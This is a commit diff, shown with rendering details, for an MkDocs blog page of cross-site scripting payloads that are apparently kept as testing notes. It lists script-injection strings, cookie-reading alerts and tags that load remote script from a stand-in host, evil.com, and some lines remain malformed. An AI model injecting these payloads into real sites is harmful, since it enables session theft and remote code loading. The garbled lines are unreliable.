

Before and after one commit to Windforce17/blog, an MkDocs documentation site: the page built from docs/Web&Attack/XSS SSRF.md, in a window 1280 px wide and 1400 px high, scrolled down 441 px. Shown: the part 518-975 px from the top of the window. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
add xss pyc

```diff
--- a/docs/Web&Attack/XSS SSRF.md
+++ b/docs/Web&Attack/XSS SSRF.md
@@ -32,9 +32,9 @@
 - <body onLoad="while(true) alert("XSS"),">
 - "></tile><script>alert(1111)</script>
 - </textarea>'"><script>alert(document.cookie)</script>
-- '""><script language="JavaScript"> alert("X \nS \nS"),</- script>
-- </script></script><<<<script><>>>><<<script>alert(123)</- script>
-- <html><noalert><noscript>(123)</noscript><script>(123)</- script>
+- '""><script language="JavaScript"> alert("X \nS \nS"),</script>
+- </script></script><<<<script><>>>><<<script>alert(123)</script>
+- <html><noalert><noscript>(123)</noscript><script>(123)</script>
 - <INPUTTYPE="IMAGE"SRC="javasctipt:alert("XSS");">
 - '></select><script>alert(123)</script>
 - '>'><script src='http://www.evil.com/XSS.js'></script>
@@ -43,8 +43,8 @@
 - a="get";b="URL";c="javascript:";d="alert("XSS");";eval(a- +b+c+d);
 - ='><script>alert("XSS")</script>
 - <sctipt+src=">"+src="http://www.evil.com/XSS.js?68,- 69"></script>
-- <body backgroud=jabascript:'"><script>alert- (navigator.userAgent)</sctipt>></body>
-- ">XaDoS/><script>alert(document.cookie)</script><script - src="http://www.site.com/X
+- <body backgroud=javascript:'"><script>alert- (navigator.userAgent)</sctipt>></body>
+- ">XaDoS/><script>alert(document.cookie)</script><script src="http://www.site.com/X
 - Data:text/html;charset=utf-7;base64.Ij481.3RpdGod- [jxzY3JpcHQ+YWxlcnQoMIMzNy
 - "<marquee><img src=k.png onerror=alert(/XSS/)/>
 - "<marquee><img src=k onerror=alert(/XSS/)>
```
Also changed, not shown: docs/coding/interview.md (+2 -0 lines), docs/ctf/reverse/pyc.md (+3 -1 lines).
